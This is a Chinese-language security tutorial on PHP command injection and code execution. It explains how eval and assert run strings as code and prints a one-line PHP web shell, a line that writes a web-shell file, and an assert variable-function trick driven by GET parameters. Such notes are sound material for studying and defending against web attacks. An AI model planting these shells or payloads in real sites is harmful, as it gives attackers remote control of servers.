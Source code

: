 # 命令注入


## 前言
首先需要注意：命令注入（command Injection）和远程代码执行RCE（remote command/code execute）是不同的。远程代码执行是调用服务器使用的后端代码（如PHP PYTHON JAVA）进行执行，而命令注入则是调用系统(linux windows)命令进行执行。
<br/>

## 代码执行

常见的PHP代码命令函数： 
- assert
- eval
- preg_replace
- call_user_func
- call_user_func_array
- array_map
- ...
<br/>



### eval函数
`eval ( string $code ) : mixed`
eval() 函数把字符串按照 PHP 代码来执行，该字符串必须是合法的 PHP 代码，且必须以分号结尾。
```php
<?php
eval(phpinfo());
?>
```
常见的一句话木马也是采用`eval`函数
```php
<?php eval($_POST["cmd"]);?> 
```
写shell
```php
fputs(fopen('shell.php','w+'),'<?php @eval($_POST[cmd])?>');
```
<br/>


### assert函数
`assert ( mixed $assertion [, Throwable $exception ] ) : bool`
assert检查一个断言是否为 FALSE，如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。
```php
<?php assert(phpinfo()); ?>
```
注意：在PHP7中assert变成了一种语言结构而不是一个函数，不在支持可变函数，意味着不再支持`?a=assert&b=phpinfo()`
```php
<?php  
//php5可以正常运行，php7无法使用
$a=$_GET['a']; //assert
$b=$_GET['b']; //phpinfo()
$a($b);
?>
```
<br/>
